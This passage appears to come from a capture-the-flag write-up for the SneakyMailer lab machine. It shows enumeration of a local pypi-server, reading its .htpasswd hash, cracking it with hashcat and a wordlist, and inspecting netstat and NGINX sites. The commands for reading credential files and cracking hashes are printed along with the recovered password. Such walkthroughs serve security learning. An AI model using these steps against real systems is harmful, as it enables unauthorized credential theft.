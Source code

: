     
    
    pypi       697  0.0  0.6  36956 25932 ?        Ss   Jul12   0:30 /var/www/pypi.sneakycorp.htb/venv/bin/python3 /var/www/pypi.sneakycorp.htb/venv/bin/pypi-server -i 127.0.0.1 -p 5000 -a update,download,list -P /var/www/pypi.sneakycorp.htb/.htpasswd --disable-fallback -o /var/www/pypi.sneakycorp.htb/packages
    

The options give a lot of information about what’s going on here:

  * `-i 127.0.0.1` \- listening only on localhost
  * `-p 5000` \- port 5000
  * `-a update,download,list` \- list of actions that require authentication
  * `-P /var/www/pypi.sneakycorp.htb/.htpasswd` \- the password file, in Apache htpasswd format
  * `--disable-fallback` \- don’t redirect to the real PyPI if a package isn’t found
  * `-o` \- overwrite existing files
  * `/var/www/pypi.sneakycorp.htb` \- directory to put the packages in

#### Crack Password

I’ll grab the authentication hash:

    
    
    www-data@sneakymailer:~/pypi.sneakycorp.htb$ cat .htpasswd 
    pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
    

I’ll toss that into `hashcat` after looking up the hash mode in the [list of
example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes):

    
    
    root@kali# hashcat -m 1600 pypi.hash /usr/share/wordlists/rockyou.txt --user --force
    ...[snip]...
    $apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
    

#### NGINX

`netstat` shows that there is something listening on 127.0.0.1:5000, as
identified from the `pypi-server` command line:

    
    
    www-data@sneakymailer:/home/low$ netstat -tnlp4
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      744/nginx: worker p 
    tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      744/nginx: worker p 
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -  
    

Looking in the NGINX configs shows that there are two active sites:

    
    
    www-data@sneakymailer:/etc/nginx/sites-enabled$ ls 
    pypi.sneakycorp.htb  sneakycorp.htb
    